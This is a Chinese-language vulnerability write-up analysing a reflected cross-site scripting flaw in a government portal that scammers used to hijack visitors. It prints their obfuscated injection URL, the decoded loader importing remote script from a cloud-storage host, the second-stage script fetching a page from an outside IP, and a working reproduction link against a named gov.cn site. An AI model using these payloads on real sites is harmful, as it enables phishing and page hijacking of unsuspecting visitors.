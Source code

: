 ```yaml
---
title: 政务网漏洞
categories:
  - study
  - web
tags: web
---
```


### 漏洞发现

朋友圈看到有骗人分享，链接是 `gov.cn`，通过政务网做跳板，绕过微信备案风控。

![朋友圈](./1.jpg)

### 漏洞分析

抓包溯源链接为

```
https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22%3B%7D%29%25%318%3Bi2%3D%27bjk%27%3Ba%3D%7B%27l%27%3Athis%2C%27k%27%3A%27%5C163etTimeout%27%2C%27r%27%3A%27a%27%2C%27t%27%3A%27%5C164o%5C142%27%7D%3Ba.l%5Ba.k%5D%28a.l%5Ba.r%2Ba.t%5D%28i2%2B%279ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8%2Fd3g9Jyk%3D%27%2C1%29%29%25%318%3B%24%28function%28%29%20%7Bvar%20orgCode%20%3D%20%22&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635
```

通过 `decodeURIComponent` 获取得

```
`https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=";})%18;i2='bjk';a={'l':this,'k':'\\163etTimeout','r':'a','t':'\\164o\\142'};a.l[a.k](a.l[a.r+a.t](i2+'9ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8/d3g9Jyk=',1))%18;$(function() {var orgCode = "&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635`
```

一眼 `orgCode` 接口未限制，可以任意执行 js。

![漏洞发现](./2.jpg)

### 代码分析

拆解分析后得知，
``
"n9=document\r\nn9.documentElement.hidden='1'\r\nn9.title='Loading...'\r\nimport('//v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=')"

``
![漏洞分析](./3.jpg)

注入后通过 `http://v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=` 载入远程代码

```
document.title="Loading...";document.documentElement.hidden=1;
(function(){
    var rmd = Math.random().toString(36).substr(2,7);
    var geUrl='//47.100.4.56/'+rmd+'?ref='+encodeURIComponent(location.href.split('#')[0]);
    var xhr=new XMLHttpRequest;xhr.onload=function(){var onhash=window.onhashchange;var h=xhr.responseText;var a=document.open("text/html","replace");a.write(h);a.close();window.onhashchange=onhash};
    xhr.open("GET",geUrl,!0);xhr.send();
})();
```

最终载入 `47.100.4.56` (阿里云上海) 服务器上的页面

尝试在 `orgCode` 带入不同入参后确认后端无任何过滤，直接返回前端输入导致漏洞

![漏洞尝试](./4.jpg)

### 漏洞复现

所以可以通过构造字符串执行任意代码。
例如以下链接，弹出 `株洲公安`，并跳转 `株洲市公安局官网`

```
https://gzkfq.jxzwfww.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22;alert(%27%E6%A0%AA%E6%B4%B2%E5%85%AC%E5%AE%89%27)%3Bwindow.location.href%3D%22http%3A%2F%2Fgaj.zhuzhou.gov.cn
```
